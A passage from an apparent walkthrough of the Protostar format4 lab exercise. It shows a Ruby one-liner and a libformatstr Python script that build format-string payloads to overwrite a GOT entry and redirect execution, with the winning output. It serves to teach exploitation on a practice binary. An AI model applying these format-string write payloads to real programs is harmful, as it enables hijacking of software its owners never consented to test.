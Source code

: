 user@protostar:~$ ruby -e 'print [0x08049726].pack("V") + [0x08049724].pack("V") + "%4\$2044x%4\$hn%5\$31920x%5\$hn"' | /opt/protostar/bin/format4 
...
8049724code execution redirected! you win
{% endcodeblock %}

Correspondingly:

{% codeblock lang:python exploit-format4.py %}
#!/usr/bin/env python

import sys
from libformatstr import FormatStr

destination   = 0x08049724
what_to_write = 0x080484b4

p = FormatStr()
p[destination] = what_to_write

# buf is 4th argument, 0 bytes are already printed
sys.stdout.write(p.payload(4, start_len=0))
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ libformatstr/exploit-format4.py | /opt/protostar/bin/format4 
...
AAA&$code execution redirected! you win
{% endcodeblock %}

